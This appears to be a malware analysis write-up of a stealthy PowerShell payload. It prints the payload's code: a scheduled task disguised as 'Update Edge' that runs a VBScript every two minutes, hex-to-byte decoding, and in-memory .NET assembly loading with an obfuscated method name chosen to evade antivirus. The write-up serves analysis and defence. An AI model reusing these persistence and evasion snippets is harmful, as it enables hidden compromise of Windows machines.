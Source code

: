 ```python

$taskDefinition = $scheduler.NewTask(0)
$taskDefinition.RegistrationInfo.Description = "Runs a script every 2 minutes"
$taskDefinition.Settings.Enabled = $true
$taskDefinition.Settings.DisallowStartIfOnBatteries = $false

$trigger = $taskDefinition.Triggers.Create(1)  # 1 = TimeTrigger
$trigger.StartBoundary = [DateTime]::Now.ToString("yyyy-MM-ddTHH:mm:ss")
$trigger.Repetition.Interval = "PT2M"

# .......... ...... Action
$action = $taskDefinition.Actions.Create(0)  # 0 = ExecAction
$action.Path = "C:\Users\Public\Conted.vbs"

$taskFolder = $scheduler.GetFolder("\")
$taskFolder.RegisterTaskDefinition("Update Edge", $taskDefinition, 6, $null, $null, 3)

```

### Payload code analysis

This script is designed to execute a payload in a stealthy and persistent manner using a combination of obfuscation, PowerShell, VBScript, and scheduled tasks. Here's a detailed explanation of how each part works:

#### 1. **Sleeping and Converting Hexadecimal to Byte Arrays**
   ```powershell
   Sleep 5
   [Byte[]] $NKbb = $hexString_bbb -split '_' | ForEach-Object { [byte]([convert]::ToInt32($_, 16)) }
   [Byte[]] $pe = $hexString_pe -split '_' | ForEach-Object { [byte]([convert]::ToInt32($_, 16)) }

```
  The script begins by sleeping for 5 seconds, likely to avoid detection or to ensure that system resources are available. After the delay, it processes two variables, $hexString_bbb and $hexString_pe, which are assumed to be hexadecimal strings. Each string is split into segments using the underscore (_) as a delimiter, and each segment is converted from hex to its byte representation. This results in two byte arrays, `$NKbband and $pe` . These arrays likely contain important data or executable code that will be used later.

#### 2. Loading a .NET Assembly from Memory

``` powershell
$HM = 'L###############o################a#d' -replace '#', ''
$Fu = [Reflection.Assembly]::$HM($pe)

```
Next, the script proceeds to **load a .NET assembly directly from memory**. The method used here is **obfuscated** to evade detection by string-matching techniques. By replacing the `#` characters with an empty string, the method **Load** is revealed, which is part of the **.NET Reflection.Assembly** class. This method is used to load the `$pe` byte array, which was created earlier. Essentially, this allows the script to execute a **.NET assembly without writing it to disk**, making it harder for antivirus programs to detect.
